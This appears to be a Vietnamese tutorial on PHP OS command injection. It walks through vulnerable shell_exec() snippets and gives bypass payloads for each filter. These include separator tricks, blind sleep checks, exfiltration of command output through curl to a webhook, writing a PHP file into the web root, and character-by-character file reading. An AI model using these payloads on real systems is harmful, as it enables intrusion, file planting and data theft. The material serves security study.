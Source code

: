 ### Example 1

```
$command = $_POST['command'];
$target = $_POST['target'];
switch($command) {
  case "ping":
    $result = shell_exec("timeout 10 ping -c 4 $target 2>&1");
...
```

Giá trị nhập vào không hề được validate mà được đưa trực tiếp vào hàm shell_exec() để thực thi. Khai thác:

`8.8.8.8 ; ls -la`

Sử dụng `;` để kết thúc câu OS command đầu tiên, và đưa câu OS command muốn thực thi vào.

### Example 2

```
$command = $_POST['command'];
$target = $_POST['target'];
if (strpos($target, ";") !== false) 
    die("detected!");
switch($command) {
  case "ping":
    $result = shell_exec("timeout 10 ping -c 4 $target 2>&1");
```

Lần này chương trình filter dấu `;`, ngăn chặn việc chèn câu lệnh không mong muốn.

Ta có toán tử `&&` sẽ có cùng chức năng với `;`. Cách khai thác: `8.8.8.8 && ls`.

### Example 3

```
$command = $_POST['command'];
$target = $_POST['target'];
if (strpos($target, ";") !== false) 
    die("detected!");
if (strpos($target, "&") !== false) 
    die("detected!");
if (strpos($target, "|") !== false) 
    die("detected!");
```

Nâng cao hơn danh sách blacklish lần này bao gồm `; & | `. Có thể dùng kí tự xuống dòng trong linux để kết thúc câu OS command thứ nhất, URL encode của ký tự xuống dòng là %0A.

Cách khai thác: `8.8.8.8 %0A ls`.

### Example 4

```
$target = $_POST['target'];
switch($command) {
  case "backup":
    $result = shell_exec("timeout 3 zip /tmp/$target -r /var/www/html/index.php 2>&1");
    if ($result !== null && strpos($result, "zip error") === false)
        die("Backup thành công");
    else
        die("Backup không thành công");
```

Ở ví dụ này, result không được in ra mà thay vào đó chỉ in ra thông báo backup thành cồn hay không thôi, vậy để biết liệu chương trình có thực thi OS command không thì gán $target = `; sleep 5;`.

Gửi response của câu OS command ra bên ngoài. Dùng tính năng data-binary của curl để bắn đi kết quả của một câu OS command qua webhook.

Payload: `; ls | curl <webhook> --data-binary @-;`.

### Example 5

Tương tự ex trước đó nhưng lần này chương trình được cấu hình không thể truy cập internet, vì vậy không thể gửi respond ra internet được.

Cách khai thác: `; echo '<?php phpinfo(); ?>' > /var/www/html/test.php ;`

### Example 6, 7

có thể thao túng giá trị trả về bởi câu lệnh if. payload `q /etc/passwd;if [ "$(cat /* | cut -c 1)" = "C" ]; then sleep 5; fi #`





